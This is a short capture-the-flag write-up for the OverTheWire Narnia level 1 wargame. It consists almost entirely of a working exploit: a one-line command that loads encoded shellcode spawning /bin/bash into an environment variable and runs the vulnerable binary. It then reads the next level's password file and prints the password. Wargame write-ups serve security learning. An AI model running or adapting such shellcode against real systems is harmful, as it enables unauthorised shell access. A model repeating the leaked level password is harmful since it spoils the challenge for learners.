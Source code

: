 # Narnia 1


Insert shellcode for /bin/bash

`$ export EGG=$(python -c "print('\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81')"); ./narnia1`


```
$ cat /etc/narnia_pass/narnia2
nairiepecu
``
